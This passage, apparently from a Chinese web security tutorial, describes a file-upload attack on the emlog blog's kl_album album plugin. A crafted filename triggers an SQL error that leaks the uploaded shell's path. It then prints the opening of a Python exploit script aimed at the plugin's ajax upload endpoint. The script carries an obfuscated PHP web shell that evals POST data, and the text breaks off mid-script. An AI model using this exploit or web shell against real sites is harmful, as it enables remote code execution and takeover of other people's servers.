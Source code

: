 填入目标 url，并选择要上传的 shell。（如图，我这里是 info'.php，会令 SQL 出错）。点击 GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php 访问可见 shell：

![image](img/394e35767da4362dfb626969bdf3a6a6.png)

这里给出独自等待的一份 payload：

```
#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf-8 -*-
# Date: 2015/4/30
# Created by 独自等待
# 博客 http://www.waitalone.cn/
import sys, os, re, time

try:
    import requests
except ImportError:
    raise SystemExit('\n[!] requests 模块导入错误,请执行 pip install requests 安装!')
def usage():
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print '\t Python emlog 相册插件 getshell exploit'
    print '\t   Blog：http://www.waitalone.cn/'
    print '\t\t Code BY： 独自等待'
    print '\t\t Time：2015-04-30'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print '用法: ' + os.path.basename(sys.argv[0]) + ' EMLOG 网站地址'
        print '实例: ' + os.path.basename(sys.argv[0]) + ' http://www.waitalone.cn/'
        sys.exit()
def getshell(url):
    '''
    emlog 相册插件上传 getshell 函数
    :param url:  emlog url 地址
    :return:     返回得到的 shell 地址
    '''
    up_url = url + 'content/plugins/kl_album/kl_album_ajax_do.php'
    shell = "<?php @preg_replace('\\'a\\'eis','e'.'v'.'a'.'l'.'($_POST[\"hstsec\"])','a');?>"
```